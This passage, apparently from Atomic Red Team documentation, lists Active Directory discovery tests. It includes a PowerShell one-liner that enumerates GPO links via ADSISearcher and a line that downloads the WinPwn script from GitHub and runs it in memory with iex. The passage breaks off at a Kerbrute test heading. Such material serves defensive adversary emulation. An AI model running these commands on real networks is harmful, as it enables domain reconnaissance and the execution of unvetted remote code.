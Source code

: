<br/>
<br/>

## Atomic Test #14 - Enumerate Root Domain linked policies Discovery

The following Atomic test will utilize ADSISearcher to enumerate root domain unit within Active Directory.
Upon successful execution a listing of users will output with their paths in AD.
Reference: https://medium.com/@pentesttas/discover-hidden-gpo-s-on-active-directory-using-ps-adsi-a284b6814c81

**Supported Platforms:** Windows

**auto_generated_guid:** 00c652e2-0750-4ca6-82ff-0204684a6fe4

#### Attack Commands: Run with `powershell`!

```powershell
(([adsisearcher]'').SearchRooT).Path | %{if(([ADSI]"$_").gPlink){Write-Host "[+] Domain Path:"([ADSI]"$_").Path;$a=((([ADSI]"$_").gplink) -replace "[[;]" -split "]");for($i=0;$i -lt $a.length;$i++){if($a[$i]){Write-Host "Policy Path[$i]:"([ADSI]($a[$i]).Substring(0,$a[$i].length-1)).Path;Write-Host "Policy Name[$i]:"([ADSI]($a[$i]).Substring(0,$a[$i].length-1)).DisplayName} };Write-Output "`n" }}
```

<br/>
<br/>

## Atomic Test #15 - WinPwn - generaldomaininfo

Gathers general domain information using the generaldomaininfo function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** ce483c35-c74b-45a7-a670-631d1e69db3d

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
generaldomaininfo -noninteractive -consoleoutput
```

<br/>
<br/>

## Atomic Test #16 - Kerbrute - userenum

Enumerates active directory usernames using the userenum function of Kerbrute

**Supported Platforms:** Windows

**auto_generated_guid:** f450461c-18d1-4452-9f0d-2c42c3f08624
